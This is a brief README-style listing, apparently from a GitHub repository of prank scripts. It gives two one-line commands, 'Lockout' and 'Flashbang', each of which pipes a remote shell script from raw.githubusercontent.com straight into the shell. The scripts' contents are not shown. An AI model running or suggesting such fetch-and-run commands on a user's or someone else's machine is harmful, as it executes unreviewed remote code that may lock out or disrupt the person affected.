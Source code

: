 # Lockout
    source <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/lockout/lockout.sh)

# Flashbang

    bash <(curl https://raw.githubusercontent.com/Heixier/pranks/refs/heads/main/flashbang/flashbang.sh)
